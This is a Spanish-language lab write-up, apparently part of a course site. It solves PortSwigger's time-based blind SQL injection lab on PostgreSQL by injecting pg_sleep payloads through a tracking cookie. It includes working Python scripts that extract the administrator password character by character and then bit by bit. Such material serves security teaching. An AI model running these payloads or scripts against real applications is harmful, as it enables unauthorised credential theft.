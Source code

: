 ```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/time_based_type/time_based_exercise
nav_order: 1
parent: 4.3 Basadas en tiempo
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio practico de inyección ciega basada en tiempo

> Ejercicio basado en el laboratorio "Lab: Blind SQL injection with time delays and information retrieval" de Web Security Academy (PortSwigger).


## Consigna

Este laboratorio contiene una vulnerabilidad de inyección de SQL ciega. La aplicación usa una cookie de rastreo (*tracking*) para análisis y ejecuta una consulta SQL con el valor de esta cookie. 

Los resultados de la consulta SQL no se devuelven, y la aplicación no responde de manera diferente en función de si la consulta devuelve filas o causa un error. Sin embargo, dado que la consulta se ejecuta sincrónicamente, es posible activar retrasos de tiempo condicionales para inferir información.

La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`.

Para resolver el laboratorio, obtener el usuario y contraseña del usuario `administrator` e iniciar sesión con estas credenciales.

## Resolución manual + automatización con Python

Luego de un primer acceso a la aplicación y por sugerencia de la consigna, analizando las cookies se observa que figura una llamada `TrackingId` con un valor alfanumérico. Para modificarla en pedidos siguientes es pertinente usar un proxy de ataque como OWASP ZAP para practicidad.

Inicialmente podemos validar la existencia de la vulnerabilidad de cualquiera de las formas mencionadas en [4.3 Basadas en tiempo](/test-page/injection_types/blind/time_based_type/time_based_exercise) para cada tipo de base. Por lo que modificando `TrackingId` de la siguiente manera se puede validar la que resulta válida:

```
TrackingId=ggg'||(SELECT pg_sleep(5))--
```

De este *payload* válido se deduce que el DBMS es PostgreSQL y variando los segundos de demora en `pg_sleep` se logra inferir un tiempo lo más bajo posible **que no se confunda con una demora común** de respuesta. 

Antes de extraer la contraseña del administrador y es pertinente conocer la longitud de la misma. Basado en el ejemplo de demora condicional para PostgreSQL que se encuentra en la [SQL injection cheat sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet), este es un posible fragmento de SQL que funciona:

```sql
SELECT CASE WHEN (LENGTH(password)=1) 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator'
```

Reemplazándolo en la cookie:

```
TrackingId=ggg'||(SELECT CASE WHEN (LENGTH(password)=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```

De esta manera solo se debe ir variando el número de largo comparado del número, manualmente o automatizado como se explica en los ejercicios anteriores (con *Fuzzer* de OWASP ZAP o *Intruder*/*Turbo Intruder* de Burp Suite). Como en los otros ejercicios, la longitud es 20.

Para extraer la contraseña, teniendo en cuenta que se conoce la tabla, las columnas y hasta el nombre del usuario, una forma simple y eficaz sería con el siguiente fragmento de SQL:

```sql
SELECT CASE WHEN SUBSTRING(password,%d,1)='%s' 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator')
```

Dado que el enfoque para automatizar la solución es con Python, en lugar de un número para posición del *substring* o un caracter a comparar con el *substring*, se utilizan los marcadores de posición `%d` y `%s` respectivamente. Esto permite sustituir con reemplazos de Python tales posiciones con valores reales de esos tipos de datos (`int` y `string`). De esta manera se puede ir probando entre las diferentes combinaciones en `%d` (para iterar entre cada posición de la contraseña del 1 al 20) y `%s` (para iterar sobre todas posibles opciones de caracteres alfanuméricos).

Para automatizar las consultas, el siguiente es un ejemplo de *script* básico en Python 3 en el que apoyarse:

```python
#!/usr/bin/python3
import requests,time,sys,string
# URL del laboratorio
url = 'https://LAB-ID.web-security-academy.net'
# Caracteres alfanuméricos (sin mayúsculas)
characters = string.ascii_lowercase + string.digits 
password = ""
cookie = ("XYZ'||(SELECT CASE WHEN SUBSTRING(password,%d,1)='%s' " 
    "THEN pg_sleep(2) ELSE pg_sleep(0) END " 
    "FROM users WHERE username='administrator')--")

print("[*] Iniciando SQLi")
# Posiciones de la contraseña del 1 al 20
for position in range(1,21): 
    for character in characters:
        cookies = { "TrackingId": cookie % (position, character) }
        time_start=time.time()
        requests.get(url, cookies=cookies)
        time_end = time.time()
        # Tiempo de respuesta mayor a 2 segundos (inyección exitosa)
        if time_end - time_start > 2:
            password += character
            sys.stdout.write(character)
            sys.stdout.flush()
            break

print("\n[+] Password: %s" % (password))
```

Para este ejemplo se tuvo en cuenta que la contraseña del administrador solo posee letras minúsculas y números. En un caso diferente, habría que incluir dentro de la lista `characters` todos los caracteres posibles para la contraseña (letras mayúsculas y caracteres especiales).

## Optimización con conversión binaria

La desventaja de iterar por lista de caracteres es que requiere una alta cantidad de consultas para probar todas las  posibles combinaciones, si bien se realiza mediante un *script* para automatizarlo, para optimizar la cantidad de consultas, es conveniente apoyarse en los consejos de optimización descritos en la sección [4.1 Inyeccion SQL ciega con respuestas condicionales](/test-page/injection_types/blind/conditional_type#optimizaciones).

La optimización de utilizar una conversión a binario del caracter a adivinar implica convertirlo primero a su representación numérica (con `ASCII()`), luego a *byte* con un *cast* (`::bit(8)`) y finalmente tomar bit por bit de ese byte resultante. Cada bit se compara con `0` o `1` y el resultado se acumula hasta completar 8 pedidos. Completado este proceso, se obtiene un byte que es directamente convertible a caracter.

La consulta condicional SQL pasa a ser:

```sql
SELECT CASE WHEN 
    SUBSTRING(ASCII(SUBSTRING(password,%d,1))::bit(8),%d,1)=0::bit(1)
```

El primer `%d` corresponde a la posición de caracter de contraseña (1 a 20) y el segundo a la posición de bit (1 a 8). El *script* modificado para reconstruir cada byte es el siguiente:

```python
#!/usr/bin/python3
import requests,time,sys
# URL del laboratorio
url = 'https://LAB-ID.web-security-academy.net'
password = ""
cookie = ("XYZ'||(SELECT CASE WHEN SUBSTRING(ASCII(SUBSTRING(password,%d,1))::bit(8),%d,1)=0::bit(1) "
    "THEN pg_sleep(2) ELSE pg_sleep(0) END "
    "FROM users WHERE username='administrator')--")

print("[*] Iniciando SQLi")
# Posiciones de la contraseña del 1 al 20
for position in range(1,21):
    byte = ""
    # Posiciones de bit del 1 al 8
    for bit_position in range(1,9):
        cookies = { "TrackingId": cookie % (position, bit_position) }
        time_start=time.time()
        requests.get(url, cookies=cookies)
        time_end = time.time()
        # Tiempo de respuesta mayor a 2 segundos (inyección exitosa)
        if time_end - time_start > 2:
            byte += "0"
        else:
            byte += "1"
    # Conversión del entero en base 2
    extracted_chr = chr(int(byte, 2))
    password += extracted_chr
    sys.stdout.write(extracted_chr)
    sys.stdout.flush()

print("\n[+] Password: %s" % (password))
```
